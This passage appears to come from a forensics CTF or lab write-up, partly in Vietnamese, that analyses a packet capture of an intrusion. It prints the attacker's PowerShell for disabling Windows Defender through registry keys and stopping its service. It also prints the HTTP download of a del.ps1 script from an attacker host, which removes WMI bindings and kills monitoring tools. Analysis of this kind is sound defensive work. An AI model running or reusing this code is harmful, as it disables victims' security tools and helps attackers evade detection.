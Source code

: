 ```powershell
            if (-not (Test-Path $defenderRegistryPath)) {
                New-Item -Path $defenderRegistryPath -Force | Out-Null
            }
    

            foreach ($key in $defenderRegistryKeys) {
                Set-ItemProperty -Path $defenderRegistryPath -Name $key -Value 1 -ErrorAction SilentlyContinue
            }
    

            Get-Service WinDefend | Stop-Service -Force -ErrorAction SilentlyContinue
            Set-Service WinDefend -StartupType Disabled -ErrorAction SilentlyContinue
        }
    }
```

`DisableAntiSpyware, DisableRoutinelyTakingAction, DisableRealtimeMonitoring, SubmitSamplesConsent, SpynetReporting`

## Q9

**Can you determine the URL of the second file downloaded by the attacker?**

Tại tcp stream 1182 tải file `del.ps` từ server của hacker

```powershell
GET /del.ps1 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.4291
Host: 87.96.21.84
Connection: Keep-Alive


HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.8
Date: Sun, 28 Apr 2024 00:32:12 GMT
Content-type: application/octet-stream
Content-Length: 343
Last-Modified: Sat, 27 Apr 2024 23:16:43 GMT

Get-WmiObject _FilterToConsumerBinding -Namespace root\subscription | Remove-WmiObject

$list = "taskmgr", "perfmon", "SystemExplorer", "taskman", "ProcessHacker", "procexp64", "procexp", "Procmon", "Daphne"
foreach($task in $list)
{
    try {
        stop-process -name $task -Force
    }
    catch {}
}

stop-process $pid -Force
```

